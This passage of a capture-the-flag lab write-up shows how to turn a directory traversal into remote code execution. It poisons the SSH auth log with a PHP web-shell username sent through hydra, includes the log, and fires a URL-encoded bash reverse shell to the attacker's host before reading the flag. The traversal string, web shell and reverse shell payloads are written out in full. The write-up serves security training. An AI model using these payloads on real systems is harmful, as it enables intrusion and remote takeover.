 
We are also able to include the `/var/log/auth.log` file.

![Web 50000 Directory Traversal Payload Auth Log](port_50000_directory_traversal_auth_log.webp){: width="1000" height="300" }

Any user that attempts to `SSH`, will be logged to this file. We can see this by trying to SSH as `test`.

```console
$ ssh test@10.10.202.40
```

![Web 50000 Directory Traversal Payload Auth Log Test](port_50000_directory_traversal_auth_log_test.webp){: width="1000" height="500" }

Now to poison this log file, we just need to try to login with a username as PHP code: `<?php system($_GET["cmd"]); ?>`.

If you look for ways to do this online, you will probably come across this method: `ssh '<?php system($_GET["cmd"]); ?>'@10.10.202.40`.

But this will no longer work due to an update to `OpenSSH`.

```console
$ ssh '<?php system($_GET["cmd"]); ?>'@10.10.202.40
remote username contains invalid characters
```

We can side-step this issue by using `hydra`.

```console
$ hydra -l '<?php system($_GET["cmd"]); ?>' -p test ssh://10.10.202.40
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-01 12:15:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://10.10.202.40:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-01 12:15:17
```

After running the `hydra` command, we can see that we were once again successful at poisoning the log and can use it to run commands on the system.

![Web 50000 Directory Traversal RCE](port_50000_directory_traversal_rce.webp){: width="1000" height="300" }

We can use the same payload as before to get a shell with a request like this:

- `/profile.php?img=......///......///......///......///var/log/auth.log&cmd=bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E11%2E72%2E22%2F443%200%3E%261%27`

After getting a shell, we can read the text file at `/var/www/html` to get the second flag and complete the room.

```console
www-data@filepath:/var/www/html$ cat 5*.txt
THM{[REDACTED]}
```
